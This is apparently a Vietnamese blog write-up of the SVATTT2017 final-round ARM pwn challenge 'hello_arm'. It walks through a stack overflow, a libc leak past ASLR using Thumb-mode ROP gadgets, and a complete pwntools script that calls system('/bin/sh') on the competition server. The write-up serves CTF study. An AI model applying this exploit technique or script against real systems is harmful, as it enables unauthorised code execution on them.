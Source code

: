 ```yaml
---
layout: post
title: "[SVATTT2017 Final Round] [Daemon] [Pwn] hello_arm"
---
```


Sau khi thọt ở vòng sơ khảo với bài formatstring. Mình đã phục thù với bài daemon **noteservice** . Nhưng lại ngã với bài **hello_arm.**... .

Trong buổi thi thì BTC có cho file img arm để tạo env debug. Xui làm sao hôm đó load file đó lại không ra mạng được, không setup được gdb. Mình down src gdb về build nhưng đến cuối lại bị failed. Thế là hôm đó quỳ với bài này... 

Về nhà mình đã tự build img arm và setup peda-arm để debug.

Tham khảo bài này để build img arm (cũng của tác giả ra đề bài này :)) ) : `https://tradahacking.vn/debug-linux-kernel-v%E1%BB%9Bi-qemu-v%C3%A0-gdb-38c2cd29f616` có mấy đoạn trong đây không đúng lắm (trong TH mình) thắc mắc gì có thể hỏi mình.

peda-arm : `https://github.com/alset0326/peda-arm`

Link các challenges đã được VNSEC public : `https://docs.google.com/spreadsheets/d/e/2PACX-1vQ3hmA1FHf-a2uymoaXk8Cu8yvji_0mYI2EnPbmSzRHoiWMwPuLXj_OpaLcqEtYHYepcI3GG3rEIpEM/pubhtml?gid=0&single=true`



Check file: 

```
hello_arm.1: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c81cfe892f89ccc0d55b9e5d4ec40048b00de0d6, stripped
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```



Quăng vào IDA thì dễ dàng thấy lỗi bof ở đây

```C
int sub_1054C()
{
  int v1; // [sp+0h] [bp+0h]

  puts("Overflow me.");
  read(0, &v1, 1024u); // <--- bof
  return puts("End");
}
```

![](https://i.imgur.com/fEKFqix.png)

ta thấy ins `SUB SP,SP, #0x80` với SP là reg stack pointer nên ta cần padding `0x84` để có thể overwrite địa chỉ trả về.

Bài này có bật ASLR trên server nên cần phải leak địa chỉ libc base trước. 

Để có thể leak được thì cần đưa địa chỉ GOT vào thanh ghi R0. Và cần một gadget dạng `pop {xxx,pc}` để đưa hàm cần gọi vào reg PC (program counter).

dùng ROPgadget để thử tìm gadget cần :

`ROPgadget --binary hello_arm`

`1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}` (popret)

nhưng không control được R0. 

Đến đây thì mình đã stuck. Nhưng chợt nhớ đến hint của BTC là **thumb2-mode** .

Sau khi tìm hiểu (`http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0344c/Beiiegaf.html` ) thì được biết rằng architecture **arm** có 3 loại instruction sets là : ARM, thumb và thumb2. ARM dùng instruction 32-bit, thumb dùng instruction 16-bit và thumb2 32 bit mixing giữa 2 loại này (hỗ trợ thumb trên 32-bit và ARM). 

Trong thumb2 mode thì có một quy định để biết instruction nào của mode nào (arm hay thumb) bằng cách (`https://stackoverflow.com/questions/37836861/jump-between-thumb-and-arm`  ) 

- nếu bit 0 của địa chỉ là 0 thì CPU sẽ execute dưới dạng arm code
- nếu bit 1 của địa chỉ là 1 thì CPU sẽ execute dưới dạng thumb code
- Nếu parse sai thì CPU sẽ báo lỗi 

Đây là lí do trong code mình có mấy đoạn `+1` (Qua debug mới thấy :)) )

Vì mặc định của của ROPgadget sẽ không hiện các instruction thumb nên cần phải thêm options `--thumb`

`ROPgadget --thumb --binary hello_arm`

Ở đây có 2 gadget mình cần là :

`0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr` (popR3)

`0x000105c6 : mov r0, r3 ; pop {r7, pc}` (movR0)

Payload mình sẽ là :

- popret 
- popR3
- got read
- mov R0 ,R3 
- plt puts
- return to main

```python
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(file.got['read']) # parameter
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(file.symbols['puts']) # call function
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
```

Sau khi leak được libc, tiếp theo chỉ cần tính các offset binsh và system để call system("/bin/sh")

script : 

```python
from pwn import *

file = ELF('hello_arm.1')
libc = ELF('./libc-2.23.so')



def main(argv):
	if len(argv)<2:
		r = remote('localhost', 31335)
	else:
		r = remote('119.81.181.254',31335)

	ret2main = 0x0001054C

	r.recvuntil('Overflow me.\n')
	
	popret = 0x1051c
	# 1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}
	popr3=0x000105fc
	#0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr
	movr0=0x000105c6
	#0x000105c6 : mov r0, r3 ; pop {r7, pc}
	
	#pause()
	
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(file.got['read'])
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(file.symbols['puts'])
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
	
	r.sendline(payload)
	r.recvuntil("End")
	print r.recvline()

	libc.address=u32(r.recv(4))-libc.symbols['read']
	syst=libc.symbols['system']
	binsh=next(libc.search('/bin/sh\x00'))

	log.info("libc base : " + hex(libc.address))
	log.info("system : " + hex(syst))
	log.info("binsh : " + hex(binsh))

	
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(binsh)
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(syst)
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
	
	r.recvuntil('Overflow me.\n')
	r.sendline(payload)

	r.interactive()

if __name__ == '__main__':
	main(sys.argv)
```



![a](https://i.imgur.com/aW7AlOQ.png)

Bài này cũng không khó, chủ yếu phải setup được môi trường ... hi vọng lần sau sẽ không ngã với arm nữa ...

